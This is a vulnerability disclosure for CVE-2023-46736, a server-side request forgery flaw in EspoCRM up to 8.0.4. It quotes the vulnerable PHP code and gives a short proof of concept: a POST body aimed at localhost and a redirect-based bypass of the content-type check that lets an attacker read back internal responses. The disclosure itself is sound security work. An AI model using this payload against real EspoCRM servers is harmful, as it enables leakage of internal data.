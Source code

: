 ### CVE-2023-46736 EspoCRM upload image from url api is vulnerable to SSRF causing information leak

- **Application**: EspoCRM <=8.0.4

- **Status**: Fixed, CVE assigned

- **Threat Impact**: Sensitive data leakage, Potentially file disclosure

- **Code**: URL is get from the request json data, then passed into `uploadImage` function, which is then passed as parameter of `getImageDataByUrl` to specify as the URL of `curl` function to send the request.

  File `application/Espo/Tools/Attachment/Api/PostFromImageUrl.php`

  ```
  public function process(Request $request): Response
  {
    $data = $request->getParsedBody();
    $url = $data->url ?? null;
    ...
    $attachment = $this->uploadUrlService->uploadImage($url, $fieldData);
   }
  ```

  File: `application/Espo/Tools/Attachment/UploadUrlService.php`

  ```
  public function uploadImage(string $url, FieldData $data): Attachment
  {
    $this->getImageDataByUrl($url);
  }
  
  private function getImageDataByUrl(string $url): ?array {
    ...
    $opts[\CURLOPT_URL]  = $url;
    ...
    $ch = curl_init();
    curl_setopt_array($ch, $opts);
    $response = curl_exec($ch);
  }
  ```

- **POC**:

  1. Listen on 8888 on server side

  2. Send a post request to /api/v1/Attachment/fromImageUrl, with data 

     ```
     {
      "url": "http://localhost:8888",
      "parentType": "Note",
      "field":  "attachments"
     }
     ```

  3. Receive a request on server side. 
  4. To bypass content type check, redirect like https://ssrf.localdomain.pw/img-with-body/301-http-127.0.0.1:8888-.i.jpg can be used. Then retrieve the response back through /api/v1/Attachment/file/id endpoint